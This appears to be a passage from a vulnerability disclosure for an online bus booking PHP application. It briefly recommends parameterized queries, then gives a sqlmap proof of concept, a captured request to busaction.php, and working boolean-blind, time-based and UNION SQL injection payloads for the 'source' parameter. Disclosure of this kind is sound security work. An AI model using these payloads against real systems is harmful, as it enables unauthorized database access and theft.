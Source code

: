 Parameterized queries or precompiled statements should be used to ensure that user input is processed and escaped correctly. This can prevent attackers from tampering with query logic by injecting malicious code.

POC:

`sqlmap -r r.txt `

r.txt
```
POST /busaction.php HTTP/1.1
Host: onlinebus
Content-Length: 69
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://onlinebus
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://onlinebus/bookbus.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=jmetab2u149tgvq0m6nh6mbeh9
Connection: close

source=Dadoji+Kondadev+Stadium&dest=Court+Naka&number=2&login_submit=
```

![image](https://github.com/gtqbhksl/weekdays_something/assets/113713406/0388324f-8ebb-4700-b81d-70f5ada460bf)


```
Parameter: source (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: source=Dadoji Kondadev Stadium' AND 9227=9227 AND 'JvzU'='JvzU&dest=Court Naka&number=2&login_submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: source=Dadoji Kondadev Stadium' AND (SELECT 7739 FROM (SELECT(SLEEP(5)))FwZU) AND 'fZop'='fZop&dest=Court Naka&number=2&login_submit=

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: source=Dadoji Kondadev Stadium' UNION ALL SELECT NULL,CONCAT(0x716b7a6b71,0x476c6d577173505762704657657341764d436367577a5165456c4957486a4d417755726f7879636f,0x71766b7671),NULL,NULL,NULL-- -&dest=Court Naka&number=2&login_submit=
---

```
